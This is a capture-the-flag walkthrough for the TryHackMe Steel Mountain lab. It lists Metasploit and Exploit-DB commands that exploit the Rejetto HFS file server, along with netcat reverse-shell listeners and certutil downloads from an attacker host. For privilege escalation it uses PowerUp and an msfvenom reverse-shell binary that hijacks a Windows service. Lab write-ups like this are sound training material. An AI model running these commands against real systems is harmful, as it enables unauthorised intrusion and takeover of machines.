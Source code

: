 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080`

`exploit`

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

`nc -nvlp 443`

`cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .`

`python2 -m SimpleHTTPServer 81`

`python2 exploit.py 10.10.181.159 8080`

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

`wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`&#x20;

`python2 -m SimpleHTTPServer 81`

**Windows**

`certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1`&#x20;

`. .\PowerUp.ps1`&#x20;

`Invoke-AllChecks`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o` ASCService.exe



I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

cd C:\Program Files (x86)\IObit\Advanced SystemCare\
sc stop AdvancedSystemCareService9&#x20;

certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe

**Kali**

nc -lvnp 4443

**Victim**

sc start AdvancedSystemCareService9

![](<../../.gitbook/assets/image (3).png>)

``



